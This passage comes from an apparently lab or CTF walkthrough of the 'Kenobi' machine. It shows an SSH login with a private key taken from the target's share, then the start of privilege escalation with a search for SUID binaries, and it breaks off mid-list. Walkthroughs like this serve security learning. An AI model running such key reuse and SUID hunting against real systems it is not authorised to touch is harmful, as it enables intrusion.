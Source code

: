  - `cd ~/ ; cp /tmp/kenobi/tmp/id_rsa .`

 - `chmod 600 id_rsa`

 - `ssh -i id_rsa kenobi@{target_IP}`

```terminal
┌──(sirius㉿kali)-[~]
└─$ cp /tmp/kenobi/tmp/id_rsa .

┌──(sirius㉿kali)-[~]
└─$ chmod 600 id_rsa           

┌──(sirius㉿kali)-[~]
└─$ ssh -i id_rsa kenobi@10.10.208.106
The authenticity of host '10.10.208.106 (10.10.208.106)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.208.106' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt

```

Great, we are now on the machine as kenobi.

# **Privilege Escalation**

Let's now try to escalate our privileges and become root. We need to look for some SUID binaries.

```terminal
kenobi@kenobi:~$ find / -type f -perm -04000 2>/dev/null                                                                                                     
/sbin/mount.nfs                                                                                                                                              
/usr/lib/policykit-1/polkit-agent-helper-1                                                                                                                   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                  
/usr/lib/snapd/snap-confine                                                                                                                                  
/usr/lib/eject/dmcrypt-get-device                                                                                                                            
/usr/lib/openssh/ssh-keysign                                                                                                                                 
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic                                                                                                                   
/usr/bin/chfn                                                                                                                                                
/usr/bin/newgidmap                                                                                                                                           
```